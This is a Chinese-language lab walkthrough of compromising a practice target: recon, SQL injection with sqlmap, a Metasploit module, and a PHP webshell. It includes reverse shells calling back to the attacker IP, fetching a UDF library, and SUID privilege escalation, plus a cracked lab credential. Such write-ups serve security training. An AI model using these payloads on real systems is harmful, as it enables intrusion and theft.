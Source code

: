 
# 0X00 环境
**攻击机：10.10.10.1**<br />**靶机：10.10.10.100**


# 0X01 信息收集
使用[NMAP](https://www.yuque.com/xmtxsec/network_security/xm1y1f)进行端口扫描
```
nmap -sV -A 10.10.10.100 -p-
```
![image.png](../../_img\06-靶场实践/1671430832355-88534d3f-f65a-407d-b038-358f32c1249f.png)

访问80端口，一个简约的网站，有登录和账户创建页面。
![image.png](../../_img\06-靶场实践/1671431018300-48dbd04a-2029-4dfa-a52c-6b6c6c19c959.png)

目录扫描
![image.png](../../_img\06-靶场实践/1671432446548-b50e2979-32ea-4d89-a0a6-17c0839bd075.png)

扫描出一个Blog页面[http://10.10.10.100/blog/](http://10.10.10.100/blog/)
![image.png](../../_img\06-靶场实践/1671432507518-7000ca65-4a4c-4ff7-9619-d0ece0e4e382.png)

查看前端源码发现是Simple PHP Blog 0.4.0
![image.png](../../_img\06-靶场实践/1671432541987-682533de-f3b9-4509-853f-22b3e3b3ff35.png)

# 0X02 漏洞发现 
搜索发现该版本存在漏洞
![image.png](../../_img\06-靶场实践/1671432647062-9531b44f-8c85-4e29-8dda-167d25a12dd7.png)

 在80端口有个一个登陆页面，尝试是否存在SQL注入
![image.png](../../_img\06-靶场实践/1671499968229-b1015d06-9057-467c-aebd-abb95f3ddb6b.png)
存在SQL注入
![image.png](../../_img\06-靶场实践/1671499953731-72f54e02-77c3-4933-9649-1fb6f24206aa.png)


# 0X03 漏洞利用 
打开[Metasploit](https://www.yuque.com/xmtxsec/network_security/mc8ier)搜索Simple PHP Blog 0.4.0
```
search Simple PHP Blog 0.4.0
```
![image.png](../../_img\06-靶场实践/1671432838672-c651817b-d0ee-4245-9e78-5c0535df6f01.png)

利用该漏洞模块，并设置参数
```
msf6 > use 0
msf6 exploit(unix/webapp/sphpblog_file_upload) > set RhOSTS 10.10.10.100
msf6 exploit(unix/webapp/sphpblog_file_upload) > set URI /blog
```
![image.png](../../_img\06-靶场实践/1671433029469-cbb2eb2e-22ea-4c39-b730-07f225577b19.png) 

执行
```
msf6 exploit(unix/webapp/sphpblog_file_upload) > exploit
```
![image.png](../../_img\06-靶场实践/1671433466851-62aeb0d0-3a8d-4c73-975e-f13e6aaf8bc8.png)

这里虽然创建了会话，但是并不能执行命令
![image.png](../../_img\06-靶场实践/1671434163114-86f90593-748c-4242-9967-924a612e659c.png)

幸运的是这里给我们创建了凭据
![image.png](../../_img\06-靶场实践/1671434213078-a7681ef4-75c2-48f9-90de-dea5c078fb2e.png)

尝试使用凭据登录，登陆失败
![image.png](../../_img\06-靶场实践/1671499751906-9e2afaec-939b-4b63-bab0-15e5f3f163a1.png)

在前面我们还发现存在一个SQL注入漏洞，适用burpsuite抓包
![image.png](../../_img\06-靶场实践/1671500207542-cd53155e-b8c1-42f2-8a06-9e749694f127.png)

将数据包保存到文件中使用[SQLMAP](https://www.yuque.com/xmtxsec/network_security/ky08tt)进行扫描
```
sqlmap -r sql.txt
```
![image.png](../../_img\06-靶场实践/1671501577957-723a9dd5-8083-455f-9b6f-1060a1c7a86d.png)

爆库
```
sqlmap -r sql.txt --dbs
```
![image.png](../../_img\06-靶场实践/1671501636072-9e119530-4b01-4146-8ff0-cdb8891d6344.png)

查看ch16数据库中的数据表
```
sqlmap -r sql.txt -D ch16 --tables
```
![image.png](../../_img\06-靶场实践/1671501741459-07589780-b168-4bd4-9bba-95199af67f69.png)

查看user表
```
sqlmap -r sql.txt -D ch16 -T users --columns
```
![image.png](../../_img\06-靶场实践/1671501895998-aeefb0cd-cb17-4fb6-93ee-bdc68af9f56b.png)

查看email和pass中的数据
```
sqlmap -r sql.txt -D ch16 -T users -C email,pass --dump
```
![image.png](../../_img\06-靶场实践/1671502546010-eb551e28-0e22-4302-8143-e52d2b6b6b7b.png)

解密得到admin@isints.com/killerbeesareflying尝试登陆，并没有什么有用的信息
![image.png](../../_img\06-靶场实践/1671503212695-0cd5605b-606a-41ad-b19a-19a8c0e8373a.png)

创建一个shell尝试使用SQLMAP写入shell
```
msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.10.1 lport=666 -f raw -o shell.php
```
![image.png](../../_img\06-靶场实践/1671503508972-29f4f6a5-c77a-4905-b7a5-6c96172fd3b5.png)

```
sqlmap -r sql.txt --batch  --file-write shell.php  --file-dest /var/www/shell.php
```
![image.png](../../_img\06-靶场实践/1671504173557-0e3e6f88-5fd7-4816-9832-a96058b2678a.png)
写入失败

手工尝试，在上面的SQLMAP中我们可以得到SQL语句为
```
1' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x7171626a71,0x437465517663465354486c676f45466a42574e786f53694f544e4e754d47634a4261624f4a527676,0x71706b7871),NULL,NULL,NULL,NULL-- -
```

在其基础上进行修改，查看是否具有load_file权限
```
1' UNION ALL SELECT NULL,NULL,NULL,load_file('/etc/passwd'),NULL,NULL,NULL,NULL-- -
```
![image.png](../../_img\06-靶场实践/1671504397590-8ffe83de-5ba8-4bc1-be38-82767e3f366b.png)

具有load_file权限，尝试写入木马
```
1' union select null,null,null,"<?php system($_GET['cmd']);?>",null,null,null,null into outfile '/var/www/shell.php'-- -
```
![image.png](../../_img\06-靶场实践/1671504547296-59112fdb-2d50-4142-83c7-32ddd5abcea0.png)

尝试执行命令
```
http://10.10.10.100/shell.php?cmd=id
```
![image.png](../../_img\06-靶场实践/1671504622022-3a37d9b4-a820-43ef-945f-4fa81e7e5fa8.png)

尝试使用NC反弹shell
```
http://10.10.10.100/shell.php?cmd=/bin/nc 10.10.10.1 4444 -e /bin/bash
```
![image.png](../../_img\06-靶场实践/1671504835434-c477f257-b7a3-4c6a-bd8d-93acd3198cab.png)
失败

尝试python获取反向shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
![image.png](../../_img\06-靶场实践/1671505423558-fcd444d5-3e98-433a-9a5c-7c24ec6e8f51.png)
成功


# 0X04 提权 
在/var/www/目录下找到一个文件为mysqli_connect.php里面记录了数据库的账号和密码
![image.png](../../_img\06-靶场实践/1671505801049-99739b02-3e09-49d1-a8e7-5e376188167d.png)

但是登录失败
![image.png](../../_img\06-靶场实践/1671505860631-b9018bc4-eaaa-4296-8d73-2c3b8eb9f3a0.png)

在/var目录下找到也有mysqli_connect.php
![image.png](../../_img\06-靶场实践/1671505926373-d6c7d019-84ec-4fed-9a41-cf9e88fd810c.png)

再次尝试登录数据库，成功
![image.png](../../_img\06-靶场实践/1671505976885-b51d2b19-950f-4f4c-a910-eea0bf031919.png)

在前面我们可以写入文件，这里可能可以使用UDF提权，UDF提权详情见[0X04 数据库内置函数研究](https://www.yuque.com/xmtxsec/network_security/anq3ng)
查看 secure_file_priv 的值

- 当 secure_file_priv 的值为 NULL ，表示限制 mysqld 不允许导入|导出文件，此时无法提权。
- 当 secure_file_priv 的值为 /tmp/ ，表示限制 mysqld 的导入|导出文件只能发生在 /tmp/ 目录下，此时也无法提权。
- 当 secure_file_priv 的值没有具体值时，表示不对 mysqld 的导入|导出文件做限制，此时可提权。
```
show global variables like 'secure%';
```
![image.png](../../_img\06-靶场实践/1671506224636-cfc28126-8a5a-476c-b900-38dd20f766d0.png)

查看mysql数据库plugin目录位置
```
show global variables like 'plugin%';
```
![image.png](../../_img\06-靶场实践/1671507050759-2f8822b8-07e1-44fe-93bf-968a9ef97687.png)

查看mysql框架
```
show variables like '%compile%';
```
![image.png](../../_img\06-靶场实践/1671506351133-8c7e65df-9f0f-4cb8-8289-2d7cb45d0b80.png)


将合适的UDF文件上传到plugin目录位置
```
cd /usr/share/metasploit-framework/data/exploits/mysql
python2 -m SimpleHTTPServer 6666
```
![image.png](../../_img\06-靶场实践/1671506761742-085fba2b-cbdf-4701-ba37-70d8ec6c7ebe.png)

```
cd /usr/lib/mysql/plugin
wget http://10.10.10.1:6666/lib_mysqludf_sys_64.so
```
![image.png](../../_img\06-靶场实践/1671507143761-e3fca2a9-303a-4b98-b8b5-65301bc710a3.png)

创建sys_eval函数
```
create function sys_eval returns string soname 'lib_mysqludf_sys_64.so';
```
![image.png](../../_img\06-靶场实践/1671507835204-b1d98194-7999-4bfd-bf95-9403829f6ec9.png)

尝试执行系统命令
```
select sys_eval('whoami');
```
![image.png](../../_img\06-靶场实践/1671507886216-c46e39ae-4c25-4eef-9c88-1892dc3cd729.png)
 <br />给find命令赋root的sid权限，并执行find命令，获得一个拥有sid root权限
```
select sys_eval('chmod u+s /usr/bin/find');
exit
touch test.txt
find test.txt -exec '/bin/sh' \;
```
![image.png](../../_img\06-靶场实践/1671510150927-5f86720e-34fb-4a8b-bf77-ae47294cb848.png)
